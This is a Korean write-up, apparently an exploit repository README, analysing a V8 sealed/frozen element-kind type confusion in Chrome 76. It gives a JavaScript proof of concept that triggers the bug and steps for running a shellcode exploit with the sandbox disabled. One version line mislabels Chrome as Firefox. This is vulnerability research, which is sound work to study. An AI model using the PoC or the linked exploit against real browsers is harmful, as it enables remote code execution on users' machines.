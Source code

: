# Chrome Sealed Frozen Element Kind Type Confusion

## Information
- CVE : None
- 해당 소프트웨어 : Chrome (on Windows)
- 해당 버전 : < Firefox 76.0.3809.132
- 취약점 유형 : TypeConfusion

## Root Cause
### Hidden Class
V8 engine에서 String(or Symbol) Key Object를 생성할때 HiddenClass라는 새로운 class를 생성한다. HiddenClass는 기존 객체지향언어의 Class의 개념과 비슷한데 기존 HiddenClass에 새로운 named Property(String key로 선언된 property)가 추가될때마다 그에 맞는 새로운 HiddenClass를 생성한다. 이를 간략하게 나타낸 그림은 아래와 같다.


![Transitions](/images/writeups/transitions.png)

새로운 객체가 생성될때 해당 객체와 모양이 동일한(string key의 값이 동일한) 기존에 생성된 HC가 있다면 이를 재사용하지만 그렇지 않다면 HiddenClass tree에 새로운 HC를 생성한다. 


![Transition-trees](/images/writeups/transition-trees.png)

small integer key를 가지는 객체의 경우 최적화를 위해 압축된 폼새으로 저장된다. V8은 다양한 element kinds를 관리하는데, 예를들어 PACKED_SMI_ELEMENTS는 앞서 말한 small integer key객체를 저장하는 element kind이다. 저장 포맷은 type confusion을 방지하기 위해 객체가 수정될때마다 변경된다. 예를들어 PACKED_SMI_ELEMENTS 객체에 float key를 가지는 property를 추가하면 element kind가 PACKED_DOUBLE_ELEMENTS로 변경되고 기존의 integer keys도 float형으로 변경된다.

### preventExtensions, seal and freeze
자바스크립트는 object의 properties들을 고정하기 위한 몇가지 방법을 제공한다
- Object.preventExtensions : 새로운 properties가 object에 추가되는 것을 방지한다.
- Object.seal : 세로운 properties의 추가 뿐만아니라 기존의 properties의 재설정을 방지한다.
- Object.freeze : Object.seal의 기능에 더불어서 properties의 값 변경또한 방지한다.

### Root cause
Type Confusion 취약점은 앞서 설명한 세가지 메소드를 호출한 이후 객체를 수정하여 element kind를 변경될때 발생한다. 자세한 설명은 다음장에서 POC살펴보며 분석해보겠다.

## PoC
```javascript
// Based on test/mjsunit/regress/regress-crbug-992914.js

function mainSeal() {
  const a = {foo: 1.1};   // a has map M1
  Object.seal(a);         // a transitions from M1 to M2 Map(HOLEY_SEALED_ELEMENTS)

  const b = {foo: 2.2};   // b has map M1
  Object.preventExtensions(b);  // b transitions from M1 to M3 Map(DICTIONARY_ELEMENTS)
  Object.seal(b);         // b transitions from M3 to M4
  const c = {foo: Object} // c has map M5, which has a tagged `foo` property, causing the maps of `a` and `b` to be deprecated
  b.__proto__ = 0;        // property assignment forces migration of b from deprecated M4 to M6

  a[5] = 1;               // forces migration of a from the deprecated M2 map, v8 incorrectly uses M6 as new map without converting the backing store. M6 has DICTIONARY_ELEMENTS while the backing store remained unconverted.
}

mainSeal();
```

POC에서 a와 b라는 동일한 형태의 두 객체가 생성된다. a의 경우 sea 메소드가 호출되고, b는 seal 메소드와 함께 preventExtensions 메소드가 호출된다. 이 때문에 a의 경우 기존 M1 map에서  HOLEY_SEALED_ELEMENTS라는 element kind로 변경되고 b의 경우 DICTIONARY_ELEMENT로 element kind가 변경된다. 

취약점은 10~13라인에서 발생한다. 10번째 줄에서 객체 c가 이상한 타입의 foo property로 생성된다. 이로인해 foo property를 위한 새로운 map이 생성되고 기존의 a와 b의 map은 deprecated된다. 이로인해 다음번 객체 수정에서 a와 b의 map 형식이 변경된다. 11번째 줄에서는 b의 transition이 발생하고 13번째 줄에서는 a의 transition이 발생한다. 문제는 V8이 a의 map을 b와 동일한 map으로 변경하지만 backing store는 변경하지 못해서 발생한다. 이때문에 FixedArray와 NumberDictionary 간의 Type Confusion이 발생한다. 

위의 예제 말고도 다양한 조합의 type confusion이 발생할 수 있다. 

## How to run exploit?
> OS : Windows 10 64bit
> 
> Chrome version : 76.0.3809.100 and 76.0.3809.132
1) --no-sandbox 옵션으로 크롬 실행
2) exp.html 파일을 로드
3) 쉘코드를 수정하고싶으면 shellcode.js를 수정

## Reference
- [Exodus Intel Blog : "PATCH-GAPPING GOOGLE CHROME"](https://blog.exodusintel.com/2019/09/09/patch-gapping-chrome/)
- [Exodus Intel Github : "Chrome-Issue-992914-Sealed-Frozen-Element-Kind-Type-Confusion-RCE-Exploit"](https://github.com/exodusintel/Chrome-Issue-992914-Sealed-Frozen-Element-Kind-Type-Confusion-RCE-Exploit/tree/master/chrome_992914)
- [V8 dev Blog : "Fast properties in V8"](https://v8.dev/blog/fast-properties)
